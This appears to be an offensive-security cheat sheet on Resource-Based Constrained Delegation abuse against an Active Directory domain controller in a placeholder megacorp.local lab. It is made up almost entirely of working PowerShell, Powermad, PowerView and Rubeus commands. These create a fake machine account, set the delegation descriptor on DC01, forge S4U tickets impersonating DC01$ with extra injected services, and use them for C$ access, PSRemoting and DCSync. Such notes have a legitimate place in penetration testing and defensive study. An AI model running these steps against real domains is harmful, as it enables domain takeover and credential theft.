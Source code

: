 Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD (i.e., set `msDS-AllowedToActOnBehalfOfOtherIdentity` property to value of the new machine account SID) on the vulnerable host (DC01):

```
Powermad > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PV3 > $computerSID = Get-DomainComputer -Identity fakemachine1337 -Properties ObjectSid -Verbose -Credential $cred | select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine1337$ /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```

Ask TGS for CIFS and also inject [other](https://adsecurity.org/?page_id=183) potentially useful service names into the ticket (sname field [is not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in TGS-REQ):

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine1337$ /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:CIFS/DC01.megacorp.local /altservice:host,wsman,ldap,http /ptt
```

If the ticket cannot be imported or there's no access to corresponding services, troubleshoot it:

* Try impersonating different privileged users when requesting the ticket.
* Try using FQDN to NetBIOS under `/msdsspn` parameter (i.e., `CIFS/DC01.megacorp.local` > `CIFS/DC01`).

After the ticket has been successfully imported we can go for filesystem access (CIFS), PSRemoting (WSMAN), DCSync (LDAP) and so on:

```
PS > klist
# CIFS
PS > cd \\DC01.megacorp.local\c$
PS > ls
PS > c:
# WSMAN
PS > Enter-PSSession -ComputerName DC01.megacorp.local
PS > exit
# LDAP
PS > ...DCSync...
```
